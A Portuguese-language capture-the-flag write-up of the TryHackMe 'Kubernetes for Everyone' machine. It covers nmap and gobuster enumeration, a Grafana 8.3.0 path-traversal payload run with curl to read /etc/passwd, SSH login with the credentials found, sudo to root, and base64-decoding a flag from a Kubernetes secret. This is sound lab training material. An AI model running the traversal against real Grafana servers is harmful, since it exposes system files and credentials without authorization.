 # CTF-Kubernetes4Everyone-THM-WriteUp

**DIficuldade:** Média

<h3> Eai, tudo beleza ? Terminei um curso focado em Kubernetes e nada melhor pra um hacker do que conhecer as coisas por outra perspectiva...</h3>

A maquina da vez se chama [Kubernetes-for-Everyone](https://tryhackme.com/room/kubernetesforyouly) focada em kubernetes, helm, kube cluster.

## Enumeração Inicial

`sudo nmap -sV -sC -T4 10.10.82.233`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind 2-4 (RPC #100000)
3000/tcp open  ppp?
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.12)
|_http-title: Etch a Sketch
6443/tcp open  ssl/sun-sr-https?
|     Content-Type: application/json
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}

```

> Essa porta 6443 trouxe algo diferente né ?

### Verificando porta 3000

`gobuster dir -u http://10.10.82.233:3000 --exclude-length 28034 -t 100 -r -x php,txt,html -w dir-med.txt 2>/dev/null`

```
/signup               (Status: 200) [Size: 27985]
/verify               (Status: 200) [Size: 27985]
/apidocs              (Status: 401) [Size: 32]   
/apidocs.php          (Status: 401) [Size: 32]
```

### http://10.10.82.233:3000
![image](https://user-images.githubusercontent.com/32500664/171016081-b0538e15-872e-41a0-908f-691d741d4cf6.png)
> A pagina do login mostra que a versão é 8.3.0.

### Procurando aquela lembrancinha pra galera do SOC conseguimos achar um [directory transversal attack](https://www.exploit-db.com/exploits/50581)
![image](https://user-images.githubusercontent.com/32500664/171017237-eb880424-92b3-4d4b-a5e6-85ea38d40e62.png)
>Dando uma lida no exploit basicamente o payload enviado é
`url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read`
>O exploit tambem lista todos os plugins. Um dos primeiros é o AlertList, decido então usar o path até ele para ler arquivos interessantes.
### Importante usar a opção –path-as-is se não a request não vai funcionar
`curl http://10.10.82.233:3000/public/plugins/alertlist/../../../../../../../../../../etc/passwd --path-as-is`
>output
```
...
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:<Senha>:/home/grafana:/sbin/nologin

```
### Temos um possivel senha, mas e o usuário ?

#Porta 5000
![image](https://user-images.githubusercontent.com/32500664/171029201-7863e741-b74b-48f5-9db1-306e7bdb4c4c.png)

No source algo interessante no arquivo main.css.
![image](https://user-images.githubusercontent.com/32500664/171029492-b87e057f-a536-4d0a-8c87-14aa1507944a.png)]

>Conteudo dá url Pastebin
>"OZQWO4TBNZ2A===="
`echo "OZQWO4TBNZ2A====" | base32 -d`
Output:
>vagrant
Uma possivel senha ou usuário ?

# Acesso a maquina.
Usando o usuário do senha do arquivo passwd e o possivel usuário do main.css...
```
ssh Usuário@10.10.35.154 

Usuário@10.10.35.154's password: ***************

Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


248 packages can be updated.
192 updates are security updates.


Last login: Thu Feb 10 18:58:49 2022 from 10.0.2.2
vagrant@Sant:~$
```

Usando `sudo -l` descobrimos que podemos executar qualquer comando como sudo.
>Um simples `sudo su` e temos root

# Procurando as flags

Um root simples demais e a flag aparentemente dificil... Nada no /home e no /root.

>Usando o comando top recebemos...
```
   35 root      20   0       0      0      0 S 20.4  0.0   6:56.84 kswapd0                                                                                             
 1824 kube-ap+  20   0  766848  17428   1276 S 16.1  3.5   1:13.15 kube-controller                                                                                     
 1490 root      20   0  739920  10680    968 S 10.9  2.2   1:25.75 containerd                                                                                          
 1177 472       20   0  786592  13112   4812 S  9.2  2.7   2:33.98 grafana-server                                                                                      
 1298 vagrant   20   0   29820   4716    372 R  6.3  1.0   7:19.36 python3                                                                                             
 1413 root      20   0  787356  21628   1848 S  6.0  4.4   2:05.88 k0s                                                                                                 
```
Percebemos que estamos em uma distro k0s

Como a própria pergunta diz...
`k0s kubectl get secret`

```
NAME                  TYPE                                  DATA   AGE
default-token-nhwb5   kubernetes.io/service-account-token   3      85d
k8s.authentication    Opaque                                1      85d
```
`k0s kubectl edit secret k8s.authentication`
```
# Please edit the object below. Lines beginning with a '#' will be ignored,
# and an empty file will abort the edit. If an error occurs while saving this file will be
# reopened with the relevant failures.
#
apiVersion: v1
data:
  id: VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9
kind: Secret
metadata:
  creationTimestamp: "2022-02-10T18:58:02Z"
  name: k8s.authentication
  namespace: default
  resourceVersion: "515"
  uid: 416e4783-03a8-4f92-8e91-8cbc491bf727
type: Opaque
```
### O ID é meio suspeito...
`echo "VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9" | base64 -d`

`THM{***_*_*_****__*_*_}`
